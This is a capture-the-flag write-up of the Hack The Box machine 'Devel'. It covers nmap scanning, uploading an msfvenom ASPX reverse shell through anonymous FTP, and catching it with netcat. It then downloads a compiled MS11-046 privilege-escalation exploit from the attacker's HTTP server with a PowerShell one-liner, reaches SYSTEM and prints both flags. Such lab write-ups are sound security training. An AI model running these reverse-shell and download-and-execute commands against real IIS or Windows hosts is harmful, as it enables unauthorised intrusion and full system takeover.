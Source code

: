 ```yaml
---
layout: default
---
```


# Devel

`nmap` | `privesc` | `ftp` | `reverse shell to aspx webserver` | `file transfer`

## Enumeration

1. Scan with nmap

   ```
   ┌──(schoon3r㉿nexer)-[~/Engagements/THM]
   └─$ nmap 10.10.10.5 -A -T4 -Pn
   Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-24 20:03 EST
   Nmap scan report for 10.10.10.5
   Host is up (0.034s latency).
   Not shown: 998 filtered tcp ports (no-response)
   PORT   STATE SERVICE VERSION
   21/tcp open  ftp     Microsoft ftpd
   | ftp-anon: Anonymous FTP login allowed (FTP code 230)
   | 03-18-17  01:06AM       <DIR>          aspnet_client
   | 03-17-17  04:37PM                  689 iisstart.htm
   |_03-17-17  04:37PM               184946 welcome.png
   | ftp-syst:
   |_  SYST: Windows_NT
   80/tcp open  http    Microsoft IIS httpd 7.5
   |_http-server-header: Microsoft-IIS/7.5
   |_http-title: IIS7
   | http-methods:
   |_  Potentially risky methods: TRACE
   Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

   Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
   Nmap done: 1 IP address (1 host up) scanned in 12.30 seconds
   ```

2. FTP - looks like we can login with user anonymous
   ```
   ftp 10.10.10.5
   ```
3. Let's try to upload a file

   ```
   (in Kali)
   ┌──(schoon3r㉿nexer)-[~/Engagements/HTB]
   └─$ echo "Hello World" > text.txt

   (in FTP)
   tp> ls
   200 PORT command successful.
   125 Data connection already open; Transfer starting.
   03-18-17  01:06AM       <DIR>          aspnet_client
   03-17-17  04:37PM                  689 iisstart.htm
   11-25-21  03:25AM                   12 text.txt
   03-17-17  04:37PM               184946 welcome.png
   226 Transfer complete.
   ```

4. Cool. Let's look at the other service that is open.
5. Port 80. Let's try it on the browser. >>> Looks like an IIS default page.
6. Let's try and go to the pages that was inside the ftp directory
   - http://10.10.10.5/iisstart.htm
   - http://10.10.10.5/text.txt

## Starting a FootHold

7. So from here... we want to get a foothold on the server. We know we can upload a file and we know we can view the file from the browser. Let's turn to MSFVENOM
   ```
   msfvenom -p windows/shell_reverse_tcp -f aspx LHOST=10.10.14.6 LPORT=4444 -o reverse-shell.aspx
   ```
   - -p is the location of our payload
   - -f is the format of the payload. Its ASPX because of the webserver
8. That will save a file reverse-shell.aspx to your directory. What will this payload do??? It creates a reverse shell to our netcat listener.
9. Let's now upload this file using our FTP anonymous login
10. Now let's start a netcat listener
    ```
    nc -nvlp 4444
    ```
11. Let us now go back to the browser to start the reverse shell
    ```
    http://10.10.10.5/reverse-shell.aspx
    ```
12. You will see that you now got a reverse shell in your netcat listener window
13. Lets traverse the directory.
14. You will find out that you do not have permission to view Babis and Administrator directories. This means that we need privesc.

## Enumerating for PrivEsc

15. let's type in:

    ```
    c:\Users>cd Classic .NET AppPool
    cd Classic .NET AppPool
    Access is denied.

    c:\Users>systeminfo
    systeminfo

    Host Name:                 DEVEL
    OS Name:                   Microsoft Windows 7 Enterprise
    OS Version:                6.1.7600 N/A Build 7600
    OS Manufacturer:           Microsoft Corporation
    OS Configuration:          Standalone Workstation
    OS Build Type:             Multiprocessor Free
    Registered Owner:          babis
    Registered Organization:
    Product ID:                55041-051-0948536-86302
    Original Install Date:     17/3/2017, 4:17:31 ��
    System Boot Time:          25/11/2021, 3:04:29 ��
    System Manufacturer:       VMware, Inc.
    System Model:              VMware Virtual Platform
    System Type:               X86-based PC
    Processor(s):              1 Processor(s) Installed.
                            [01]: x64 Family 6 Model 79 Stepping 1 GenuineIntel ~2100 Mhz
    BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
    Windows Directory:         C:\Windows
    System Directory:          C:\Windows\system32
    Boot Device:               \Device\HarddiskVolume1
    System Locale:             el;Greek
    Input Locale:              en-us;English (United States)
    Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
    Total Physical Memory:     3.071 MB
    Available Physical Memory: 2.430 MB
    Virtual Memory: Max Size:  6.141 MB
    Virtual Memory: Available: 5.514 MB
    Virtual Memory: In Use:    627 MB
    Page File Location(s):     C:\pagefile.sys
    Domain:                    HTB
    Logon Server:              N/A
    Hotfix(s):                 N/A
    Network Card(s):           1 NIC(s) Installed.
                            [01]: vmxnet3 Ethernet Adapter
                                    Connection Name: Local Area Connection 3
                                    DHCP Enabled:    No
                                    IP address(es)
                                    [01]: 10.10.10.5
                                    [02]: fe80::58c0:f1cf:abc6:bb9e
                                    [03]: dead:beef::23c
    ```

16. A few interesting thing here is that

    - Its a Windows 7 Build 7600
    - Hotfix: N/A
    - It is based on the X86 architecture

17. While this is a very old pc, seems funny that there are no patches on the machine. Let's google
    ```
    Windows 7 build 7600 priv esc exploit
    ```
18. The first 2 results are from Exploit-DB. Let's check out the Build 7601(x86) - Local Priv Esc... which is exactly what we want.

## PrivEsc

19. Download the exploit and read the instructions on how to compile the exploit in C
20. Install mingw-w64
    ```
    sudo apt-get install mingw-w64
    ```
21. Compile the C program you've downloaded
    ```
    i686-w64-mingw32-gcc MS11-046.c -o MS11-046.exe -lws2_32
    ```
22. Now we need to copy this file... into the C:\ drive of the target machine. Let's turn on a simple http server and copy the file
    ```
    python3 -m http.server 7331
    ```
23. Now from the netcat listener window... lets copy the file
    ```
    powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.6:7331/40564.exe', 'c:\Users\Public\Downloads\40564.exe')"
    ```
24. Let's verify if the file is copied? Great! Let's run it ~
    ```
    c:\Users\Public\Downloads>40564
    40564
    ```
25. Looks good! Let's try a few command to be certain we have root priv
    ```
    c:\Windows\System32>whoami
    whoami
    nt authority\system
    ```
26. Now we can get both user and root flags

    ```
    c:\Users\babis\Desktop>type user.txt.txt
    type user.txt.txt
    9ecdd6a3aedf24b41562fea70f4cb3e8

    c:\Users\Administrator\Desktop>type root.txt
    type root.txt
    e621a0b5041708797c4fc4728bc72b4b
    ```

# Reference

1. https://www.exploit-db.com/exploits/40564
2. https://www.offensive-security.com/metasploit-unleashed/msfvenom/

# Summary

1. We enumerated the machine using nmap and found ports 21 and 80 open
2. We found that we can upload file using the anonymous login and we can execute those file within the webserver on port 80
3. We tried to get a foothold of the machine using an MSFVENOM payload with an aspx format.
4. Once we got the reverse shell, we immediately found that we dont have a privileged user.
5. To privesc... we enumerated the machine again and found that it is an unpatched Windows 7 machine with build 7600 (x86)
6. Googling for exploit we found a link to an exploit in exploit-db
7. Installed mingw to compile the C code into an executable program and thankfully the command to complile is already provided in the link.
8. We then started a simple http server so can transfer the file into the machine and downloaded the file using a powershell script.
9. After this, we found that we now have root priv.
